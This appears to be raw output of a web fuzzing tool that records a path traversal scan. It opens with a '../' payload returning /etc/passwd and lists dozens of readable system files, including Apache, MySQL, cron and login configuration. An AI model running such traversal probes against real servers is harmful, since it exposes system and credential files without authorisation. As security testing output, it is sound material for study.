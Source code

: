 	/../../../../../../../../../../etc/passwd [Status: 200, Size: 2616, Words: 48, Lines: 50]
	/etc/adduser.conf       [Status: 200, Size: 3225, Words: 414, Lines: 95]
	/etc/anacrontab         [Status: 200, Size: 598, Words: 34, Lines: 20]
	/etc/apache2/mods-available/deflate.conf [Status: 200, Size: 719, Words: 53, Lines: 21]
	/etc/apache2/apache2.conf [Status: 200, Size: 7312, Words: 942, Lines: 228]
	/etc/apache2/mods-available/setenvif.conf [Status: 200, Size: 1477, Words: 125, Lines: 39]
	/etc/apache2/mods-enabled/deflate.conf [Status: 200, Size: 719, Words: 53, Lines: 21]
	/etc/apache2/mods-available/autoindex.conf [Status: 200, Size: 3571, Words: 325, Lines: 103]
	/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 1040, Words: 127, Lines: 31]
	/etc/apache2/envvars    [Status: 200, Size: 1979, Words: 202, Lines: 54]
	/etc/apache2/mods-available/mime.conf [Status: 200, Size: 7836, Words: 954, Lines: 256]
	/etc/apache2/mods-available/ssl.conf [Status: 200, Size: 3307, Words: 443, Lines: 92]
	/etc/apache2/mods-enabled/mime.conf [Status: 200, Size: 7836, Words: 954, Lines: 256]
	/etc/apache2/mods-enabled/dir.conf [Status: 200, Size: 354, Words: 27, Lines: 12]
	/etc/apache2/mods-available/proxy.conf [Status: 200, Size: 1019, Words: 136, Lines: 34]
	/etc/apache2/mods-enabled/negotiation.conf [Status: 200, Size: 921, Words: 121, Lines: 27]
	/etc/apache2/mods-available/dir.conf [Status: 200, Size: 354, Words: 27, Lines: 12]
	/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 946, Words: 94, Lines: 36]
	/etc/apache2/sites-enabled/000-default.conf [Status: 200, Size: 1529, Words: 184, Lines: 38]
	/etc/avahi/avahi-daemon.conf [Status: 200, Size: 1944, Words: 142, Lines: 75]
	/etc/bluetooth/network.conf [Status: 200, Size: 317, Words: 23, Lines: 13]
	/etc/bluetooth/input.conf [Status: 200, Size: 594, Words: 65, Lines: 20]
	/etc/bluetooth/main.conf [Status: 200, Size: 4071, Words: 554, Lines: 96]
	/etc/apache2/ports.conf [Status: 200, Size: 517, Words: 48, Lines: 22]
	/etc/apt/sources.list   [Status: 200, Size: 3100, Words: 308, Lines: 58]
	/etc/bash.bashrc        [Status: 200, Size: 2385, Words: 387, Lines: 75]
	/boot/grub/grub.cfg     [Status: 200, Size: 8897, Words: 894, Lines: 266]
	/etc/cups/cupsd.conf    [Status: 200, Size: 4827, Words: 574, Lines: 147]
	/etc/default/grub       [Status: 200, Size: 1497, Words: 157, Lines: 41]
	/etc/dhcp/dhclient.conf [Status: 200, Size: 1932, Words: 180, Lines: 61]
	/etc/debconf.conf       [Status: 200, Size: 3166, Words: 423, Lines: 90]
	/etc/fstab              [Status: 200, Size: 866, Words: 172, Lines: 19]
	/etc/fuse.conf          [Status: 200, Size: 477, Words: 50, Lines: 15]
	/etc/crontab            [Status: 200, Size: 945, Words: 116, Lines: 23]
	/etc/host.conf          [Status: 200, Size: 289, Words: 28, Lines: 10]
	/etc/deluser.conf       [Status: 200, Size: 801, Words: 98, Lines: 27]
	/etc/hdparm.conf        [Status: 200, Size: 4978, Words: 746, Lines: 143]
	/etc/ca-certificates.conf [Status: 200, Size: 7985, Words: 76, Lines: 191]
	/etc/hosts.allow        [Status: 200, Size: 608, Words: 94, Lines: 17]
	/etc/hosts.deny         [Status: 200, Size: 908, Words: 140, Lines: 24]
	/etc/ld.so.conf         [Status: 200, Size: 231, Words: 14, Lines: 9]
	/etc/init.d/apache2     [Status: 200, Size: 8284, Words: 1479, Lines: 357]
	/etc/logrotate.conf     [Status: 200, Size: 900, Words: 131, Lines: 43]
	/etc/kernel-img.conf    [Status: 200, Size: 307, Words: 25, Lines: 11]
	/etc/kbd/config         [Status: 200, Size: 3263, Words: 456, Lines: 83]
	/etc/hosts              [Status: 200, Size: 418, Words: 32, Lines: 16]
	/etc/ldap/ldap.conf     [Status: 200, Size: 529, Words: 35, Lines: 24]
	/etc/login.defs         [Status: 200, Size: 10748, Words: 1650, Lines: 348]
	/etc/issue.net          [Status: 200, Size: 216, Words: 15, Lines: 8]
	/etc/issue              [Status: 200, Size: 223, Words: 17, Lines: 9]
	/etc/modules            [Status: 200, Size: 392, Words: 45, Lines: 12]
	/etc/manpath.config     [Status: 200, Size: 5367, Words: 541, Lines: 138]
	/etc/lsb-release        [Status: 200, Size: 302, Words: 15, Lines: 11]
	/etc/network/interfaces [Status: 200, Size: 279, Words: 24, Lines: 10]
	/etc/mtools.conf        [Status: 200, Size: 821, Words: 90, Lines: 32]
	/etc/mtab               [Status: 200, Size: 2521, Words: 163, Lines: 37]
	/etc/ltrace.conf        [Status: 200, Size: 15064, Words: 1023, Lines: 550]
	/etc/mysql/my.cnf       [Status: 200, Size: 879, Words: 101, Lines: 28]
	/etc/pam.conf           [Status: 200, Size: 749, Words: 77, Lines: 22]
	/etc/os-release         [Status: 200, Size: 495, Words: 18, Lines: 18]
	/etc/networks           [Status: 200, Size: 288, Words: 23, Lines: 9]
	/etc/nsswitch.conf      [Status: 200, Size: 726, Words: 143, Lines: 27]
	/etc/profile            [Status: 200, Size: 772, Words: 157, Lines: 34]
	/etc/pulse/client.conf  [Status: 200, Size: 1398, Words: 182, Lines: 42]